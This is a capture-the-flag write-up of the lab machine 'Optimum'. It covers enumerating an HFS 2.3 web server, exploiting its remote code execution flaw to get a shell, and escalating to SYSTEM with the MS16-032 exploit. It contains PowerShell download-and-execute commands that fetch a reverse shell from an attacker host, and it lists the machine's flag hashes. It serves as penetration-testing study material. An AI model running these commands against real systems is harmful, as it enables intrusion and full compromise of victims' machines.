 ```yaml
---
tags: #linux
---
```

# Optimum 
#web #hfs #technique-webserver #searchsploit #cve-exploit 

**IP**: 10.10.10.8
**Start date**: [[2022-04-14]]
**End date**: [[2022-04-15]]

### 1.0 Enumeration - Nmap
Initial enumeration. 

```ad-note
title: `nmap -SCV -p- -n -Pn --min-rate 5000 -oA nmap/optimum.tcp 10.10.10.8`
collapse: open
```python
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

There is only one port open, which is 80 and hosting a http web server running `HttpFileServer` version `httpd 2.3`. 

We also run an UDP scanning `nmap -sU -n -Pn --min-rate 5000 nmap/optimum.udp 10.10.10.8` but it returns nothing. 


### 1.1 Enumeration - Port 80
The first I notice is the web server is running `HttpFileServer 2.3`, so I run a `searchsploit httpd` to check if the version is vulnerable or has a public exploit out in the wild. 

There is a **remote code execution (rce)** vulnerability. 

The exploit abuses the search functionality by using a `null character`( %00). 


### 2.0 Exploitation -> kostas

Exploiting the vulnerability is quite easy and can be done by varios ways, the easiest is to forge a custom GET request to execute a powershell. 

```ad-danger
title: Architecture issues

By running `systeminfo` inside the victim machine we know the system is **x64-based PC**.

It is important to notice that if we run the standard `powershell` inside our rce.py exploit it will get us a powershell 32-bit process inside a x64 OS !

This is probabily because the HFS (httpfileserver) process is likely running as a 32-bit process.

To check the CLI process architecture we can run `[Environment]::Is64BitProcess`. 

In a 64-bit Windows to get the 64-bit version of powershell we can run powershell directly from its directory `C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe` this will return a 64-bit powershell process.

More information about process architecture at [[Powershell Shell Version]]
```


The exploit returns a stable shell as user `kostas`. 
![[httpfileserver_vuln_rce.png]]

### 3.0 Privilege escalation: kostas --> nt authority

We run an initial check on the system by running `systeminfo` and sending it to our machine and running `windows-exploit-suggester`. 

```ad-note
title: `python2.7 windows-exploit-suggester --database db.xls --systeminfo sysinfo`

It returns a lot of possible exploits that are vulnerable, let's try one that allows us to escalate privileges.

(..)
```python
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important                      
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC

```
(..)

We can get a `.ps1` version of the exploit by running `searchsploit ms16-032`. 
```

```ad-note
title: Automatic ``.ps1` function execution.

When treating a `.ps1` function we want to run, there is a simple trick to run it without importing it as a module in powershell. This is by adding the function we previously declared at the end of the file.

In our case we declare the function `function Invoke-MS16-032 {..}`, so we add an extra line at the end of the line `Invoke-MS16-032`. 
```

```ad-bug
title: New GUI shell using searchsploit `.ps1` exploit. 

Running the previous exploit tells us an new shell has been opened but nothing spawns. This is probably (confirmed) that a new shell is literally being spawned, ie another GUI process. If we run it multiple times we will see that multiple `cmd` processs have been initialized. 

Empire did a re-edit of the exploit to allow command execution. 
The exploit can be found here [Invoke-MS16-032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

Next step is now to use the switch `-command` to send a reverse shell inside the administrator shell.
```

```ad-success
title: `IEX(New-Object Net.WebClient).downloadString("http://10.10.14.2:8000/Invoke-MS16-032.ps1")`

First of all, we modify the last line we added to the`.ps1` to invoke us a reverse shell.  

In this case we will host a python web server with a rev.ps1 (from nishang) which will be listening on port `443`

`Invoke-MS16032 -Command IEX(New-Object Net.WebClient).downloadString("http://10.10.14.2:8000/rev.ps1")`


On running we get the shell as `nt authority / system`. Voila! We are root!.

![[root.png]]

```



**Flags**
- **User**: d0c39409d7b994a9a1389ebf38ef5f73
- **Root**: 51ed1b36553c8461f4552c2e92b3eeed
